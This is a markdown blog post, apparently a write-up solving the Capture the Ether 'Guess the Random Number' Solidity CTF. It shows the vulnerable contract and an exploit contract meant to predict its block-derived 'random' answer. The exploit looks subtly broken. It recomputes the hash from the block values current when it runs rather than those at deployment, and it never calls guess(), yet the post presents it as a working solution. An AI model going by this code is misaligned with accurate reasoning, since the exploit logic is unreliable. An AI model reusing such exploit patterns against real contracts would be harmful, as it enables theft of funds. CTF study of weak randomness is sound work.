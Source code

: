 ```yaml
---
title: Capture the Ether (RareSkills Repo) - Guess the Random Number - Solution
date: '2024-07-01'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Capture the Ether - Guess the Random Number CTF
---
```


# Capture the Ether (RareSkills Repo) - Guess the Random Number - Solution

## Contract

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract GuessRandomNumber {
    uint8 answer;

    constructor() payable {
        require(msg.value == 1 ether);
        answer = uint8(
            uint256(
                keccak256(
                    abi.encodePacked(
                        blockhash(block.number - 1),
                        block.timestamp
                    )
                )
            )
        );
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function guess(uint8 n) public payable {
        require(msg.value == 1 ether);

        if (n == answer) {
            (bool ok, ) = msg.sender.call{value: 2 ether}("");
            require(ok, "Fail to send to msg.sender");
        }
    }
}
```

## Exploit

Note that the "random" number is generated based on known block parameters such as the previous block's hash and the current block's timestamp.
Therefore, we can simply replicate the "random" number by using the very same generation code in our exploit:

```solidity
contract ExploitContract {
    GuessRandomNumber public guessRandomNumber;
    uint8 public answer;

    function Exploit() public returns (uint8) {
        answer = uint8(
            uint256(
                keccak256(
                    abi.encodePacked(
                        blockhash(block.number - 1),
                        block.timestamp
                    )
                )
            )
        );
        return answer;
    }
}
```
